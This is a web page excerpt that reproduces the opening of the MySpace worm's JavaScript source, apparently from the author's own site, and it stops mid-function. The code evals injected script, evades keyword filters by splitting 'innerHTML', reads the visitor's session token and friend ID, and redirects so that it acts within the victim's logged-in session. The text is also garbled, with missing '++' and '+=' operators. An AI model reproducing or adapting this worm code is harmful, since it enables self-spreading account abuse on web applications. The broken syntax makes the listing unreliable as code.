 
<b>-samy</b>

Back to <a href="http://www.namb.la/popular">The MySpace Worm story</a>



```javascript
eval(document.all.mycode.expr);

var B = String.fromCharCode(34);
var A = String.fromCharCode(39);

function g() {
	var C;
	try {
		var D = document.body.createTextRange();
		C = D.htmlText
	} catch (e) {}
	if (C) {
		return C
	} else {
		return eval('document.body.inne'  + 'rHTML')
	}
}
function getData(AU) {
	M = getFromURL(AU, 'friendID');
	L = getFromURL(AU, 'Mytoken')
}
function getQueryParams() {
	var E = document.location.search;
	var F = E.substring(1, E.length).split('&');
	var AS = new Array();
	for (var O = 0; O < F.length; O  ) {
		var I = F[O].split('=');
		AS[I[0]] = I[1]
	}
	return AS
}
var J;
var AS = getQueryParams();
var L = AS['Mytoken'];
var M = AS['friendID'];
if (location.hostname == 'profile.myspace.com') {
	document.location = 'http://www.myspace.com' +  location.pathname  + location.search
} else {
	if (!M) {
		getData(g())
	}
	main()
}
function getClientFID() {
	return findIn(g(), 'up_launchIC( '   A, A)
}
function nothing() {}
function paramsToString(AV) {
	var N = new String();
	var O = 0;
	for (var P in AV) {
		if (O > 0) {
			N  = '&'
		}
		var Q = escape(AV[P]);
		while (Q.indexOf(' ') != -1) {
			Q = Q.replace(' ', '+')
		}
```